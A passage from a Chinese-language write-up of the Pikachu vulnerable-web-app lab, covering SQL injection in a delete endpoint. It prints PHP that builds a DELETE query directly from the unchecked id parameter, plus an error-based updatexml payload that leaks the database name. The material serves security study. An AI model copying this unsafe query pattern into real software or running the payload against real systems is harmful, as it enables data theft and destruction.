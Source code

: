 ![image](../../../assets/img/安全/实验/pikachu/51.png)

后面爆剩下的略，累了

### "delete" 注入
**服务器端核心代码**
```php
// if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){
//没对传进来的id进行处理，导致DEL注入
if(array_key_exists('id', $_GET)){
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        header("location:sqli_del.php");
    }else{
        $html.="<p style='color: red'>删除失败,检查下数据库是不是挂了</p>";
    }
}
```

**漏洞利用**

抓包 `GET /pikachu/vul/sqli/sqli_del.php?id=1 HTTP/1.1`

参数 id 可以尝试 sql 报错注入，构造 payload

`1 or updatexml(1,concat(0x7e,database()),0)`

通过Burp Suite中自带的URL转换编码来转换替换ID

![image](../../../assets/img/安全/实验/pikachu/53.png)
